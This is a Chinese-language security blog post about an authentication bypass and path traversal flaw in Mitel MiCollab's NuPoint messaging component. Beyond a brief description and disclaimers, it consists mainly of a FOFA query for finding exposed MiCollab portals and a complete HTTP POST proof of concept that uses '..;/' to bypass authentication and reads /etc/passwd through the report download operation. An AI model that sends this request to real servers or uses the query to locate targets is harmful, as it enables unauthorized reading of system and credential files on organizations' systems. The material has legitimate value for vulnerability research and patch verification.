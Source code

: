 #  Mitel 企业协作平台 npm-pwg 任意文件读取漏洞   
 HK安全小屋   2025-04-26 07:12  
  
免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
漏洞描述：  
  
由于Mitel MiCollab软件的 NuPoint 统一消息 (NPM) 组件中存在身份验证绕过漏洞，并且输入验证不足，未经身份验证的远程攻击者可利用该漏洞执行路径遍历攻击，成功利用可能导致未授权访问、破坏或删除用户的数据和系统配置。  
  
影响版本：  
  
Mitel 企业协作平台  
  
fofa：  
```
body="MiCollab End User Portal"
```  
  
poc：  
```
POST /npm-pwg/..;/ReconcileWizard/reconcilewizard/sc/IDACall?isc_rpc=1&isc_v=&isc_tnum=2 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Length: 683
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close
_transaction=<transaction xmlns:xsi="http://www.w3.org/2000/10/XMLSchema-instance" xsi:type="xsd:Object"><transactionNum xsi:type="xsd:long">2</transactionNum><operations xsi:type="xsd:List"><elem xsi:type="xsd:Object"><criteria xsi:type="xsd:Object"><reportName>../../../etc/passwd</reportName></criteria><operationConfig xsi:type="xsd:Object"><dataSource>summary_reports</dataSource><operationType>fetch</operationType></operationConfig><appID>builtinApplication</appID><operation>downloadReport</operation><oldValues xsi:type="xsd:Object"><reportName>x.txt</reportName></oldValues></elem></operations><jscallback>x</jscallback></transaction>&protocolVersion=1.0&__iframeTarget__=x
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI3PHz7fiaevok224MrxJSOhRmJDNsaA739Faxpagibw7wUgw4oXmc93PuwwUDmHMhrFCgRXTJiaCny3Q/640?wx_fmt=png&from=appmsg "")  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
